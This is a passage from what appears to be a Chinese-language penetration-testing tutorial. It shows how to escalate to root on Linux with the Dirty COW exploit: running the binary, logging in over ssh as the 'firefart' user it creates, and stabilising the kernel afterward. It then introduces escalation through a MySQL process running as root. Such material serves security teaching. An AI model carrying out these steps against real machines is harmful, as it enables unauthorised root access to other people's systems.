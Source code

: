 我们使用以下命令`chmod`（更改文件权限）文件：

```
chmod +x dirty
```

然后我们使用`./dirty`运行它。我们将失去我们的反向连接访问权限，但如果一切顺利，我们现在可以使用用户名`firefart`和密码`firefart`作为根用户`ssh`到机器上。

我们使用以下命令尝试`ssh`：

```
ssh –l firefart <IP Address>
```

![](img/f5371878-fc1d-4a48-b4d2-925e4c4a0021.png)

现在，dirty cow 有点不稳定，但我们可以使用这个解决方法来使其稳定：

```
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
```

让我们执行命令 ID；我们将看到我们现在是系统的根用户！

![](img/8eb13a53-9176-429a-9cf2-217c4ec14cb3.png)

现在让我们看另一种实现根权限的方法。在这种情况下，我们将假设我们在系统上有一个 shell，并且我们运行的枚举脚本向我们显示 MySQL 进程正在作为系统根用户运行。

![](img/21e973d7-e52a-4aef-8722-b3765333bfc7.png)
